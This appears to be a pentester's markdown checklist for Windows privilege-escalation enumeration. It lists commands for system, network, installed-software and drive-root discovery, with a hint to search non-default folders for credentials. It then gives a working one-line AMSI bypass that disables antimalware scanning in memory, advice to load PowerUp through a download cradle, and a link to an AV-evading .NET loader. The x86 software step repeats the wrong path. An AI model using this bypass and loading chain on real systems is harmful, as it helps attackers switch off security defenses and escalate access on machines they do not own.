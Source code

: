 ```ad-note
___

___
*Current System*
~~~powershell
systeminfo
~~~
*Screenshot*
___

___
*Network Configuration*
~~~powershell
Get-NetIPConfiguration
~~~
*Screenshot*
___

___
*Check Installed Software*
~~~powershell
get-childitem 'C:\Program Files\' | Select-Object Name | Format-Table
~~~
*Screenshot*
___

___
*Check Installed Software x86*
~~~powershell
get-childitem 'C:\Program Files\' | Select-Object Name | Format-Table
~~~
*Screenshot*
___

___
*Root of C:/ Drive Contents*
~~~powershell
get-childitem 'C:\' | Select-Object Name | Format-Table
~~~
> Check non-default folders such as "Setup" or "Inetpub" for credentials.
*Screenshot*
___

___
```

> At this point if you have not found anything of interest, try running *automated tools*.

*PowerUp.ps1* > *SeatBelt.exe* > *WinPeas.exe*

```ad-note
title: Automated Tools

Amsi Bypass for PowerUp.ps1:

~~~powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
~~~

- Now you can use a download cradle to import PowerUp and `invoke-allchecks`.
- For SeatBelt.exe you can use any .NetLoader that bypasses AV. [NetRunners Project](https://github.com/Hacker-Hermanos/NetRunners/tree/main)

Paste screenshots for interesting findings here:
```
